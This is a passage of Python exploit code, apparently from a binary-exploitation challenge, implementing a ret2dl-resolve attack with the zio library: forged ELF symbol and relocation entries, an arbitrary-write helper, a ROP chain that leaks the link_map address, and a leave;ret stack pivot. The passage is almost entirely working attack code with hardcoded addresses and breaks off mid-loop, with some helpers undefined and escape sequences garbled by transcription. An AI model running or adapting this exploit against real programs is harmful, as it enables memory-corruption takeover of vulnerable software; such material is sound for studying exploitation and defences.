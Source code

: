 ```
def generate_fake_sym(st_name):
    return l32(st_name)+l8(0x12)+l8(0) + l16(0) + l64(0) + l64(0)
 
 
#versym = 0x40031e
symtab = 0x4002b8
strtab = 0x400330
jmprel = 0x4003b8
 
bss_addr = 0x601058
 
# .bss addr = 0x601058
# 0x155dc*0x18+0x4003b8 = 0x601058
# so index = 0x155dc
 
#0x155e8*0x18+0x4002b8 = 0x601078
# so r_sym = 0x155e8
 
# 0x200d68 + 0x400330 = 0x601098
# so st_name = 0x200d68
 
 
def write_any(io, addr, value):
    print hex(addr), hex(value)
    io.read_until(':n')
    io.writeline('0')
    io.write(l64(addr)+l64(value))
 
def exp(target):
    io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), print_write=COLORED(RAW, 'green'))
    pop_rdi_ret = 0x0000000000400603
    pop_rsi_r15_ret = 0x0000000000400601
    leak_addr = 0x600ef0
    write_plt = 0x0000000000400430
    pop_rbp_ret = 0x4004d0
    leak_rop = l64(pop_rsi_r15_ret) + l64(leak_addr) + l64(0) + l64(pop_rdi_ret) + l64(1) + l64(write_plt)
    leak_rop += l64(pop_rbp_ret) + l64(0x601f00) + l64(0x400582)
 
    for i in range(0, len(leak_rop), 8):
        write_16byte(io, 0x601b00+i, leak_rop[i:i+8]+'x00'*8)
 
    leave_ret = 0x40059d
    leak_stack_povit = 'a' * 0x10 + l64(0x601b00 - 0x8) + l64(leave_ret)
    io.write(leak_stack_povit)
 
    io.read_until(':')
    link_map_addr = l64(io.read(8)) + 0x28
    print hex(link_map_addr)
 
    r_offset = 0x601970 # a writable addr
    r_sym = 0x155e8
 
    fake_relro = generate_fake_relro(r_offset, r_sym).ljust(0x20, 'x00')
 
    st_name = 0x200d68
    fake_sym = generate_fake_sym(st_name).ljust(0x20, 'x00')
 
    write_16byte(io, link_map_addr+0x1c8, 'x00'*0x10)
    #write_16byte(io, 0x600858, l64(0x6ffffff0)+l64(0x3d57d6))
 
    for i in range(0, len(fake_relro), 8):
```